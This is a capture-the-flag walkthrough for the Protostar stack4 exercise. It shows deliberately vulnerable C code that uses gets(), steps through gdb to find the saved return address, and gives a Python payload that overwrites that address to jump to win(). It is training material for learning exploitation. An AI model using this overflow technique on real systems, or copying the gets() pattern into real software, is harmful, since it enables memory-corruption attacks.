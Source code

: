 ```yaml
---
title: "Protostar stack4 walkthrough"
date: 2020-05-21
tags: [ctf, protostar, stack4, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack4](https://exploit-exercises.lains.space/protostar/stack4/)

#### About
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

A variety of introductory papers into buffer overflows may help.
gdb lets you do “run < input”
EIP is not directly after the end of buffer, compiler padding can also increase the size.

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### Procedure:

after main is executed, the stack contains the address which called main. At the last statement of main (ret) this address is popped off stack and stack frame goes back to previous state and ESP points to the return pointer. 

We can change the return pointer to point to win() function, this executing it after ret

##### Vulnerability:

`gets` is vulnerable function.


##### Disassembly:

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack4/disassemble.png)

Lets start by running ./stack4 with a large input (AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ) since we dont know where the return pointer is

create breakpoint at ret `break *0x0804841e` and run

![ret-1]({{site.url}}{{site.baseurl}}/images/protostar/stack4/ret-1.png)

We can see that $esp (0xbffff75c) is loaded with 0x56565656 and the next step after ret tried to execute 0x56565656 and failed.

So, if we can overwrite 0xbffff75c with the address of win(), we are done

address of win can be found using objdump or in gdb
```
(gdb) x win
0x80483f4 <win>:        0x83e58955
```

Lets modify our python program to add this address to string after 0x55 (U)
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"
padding += "\xf4\x83\x04\x08" #address 0x80483f4
print padding
```
![done]({{site.url}}{{site.baseurl}}/images/protostar/stack4/done.png)

Now we can see that $esp now has 0x080483f4 and win() is executed

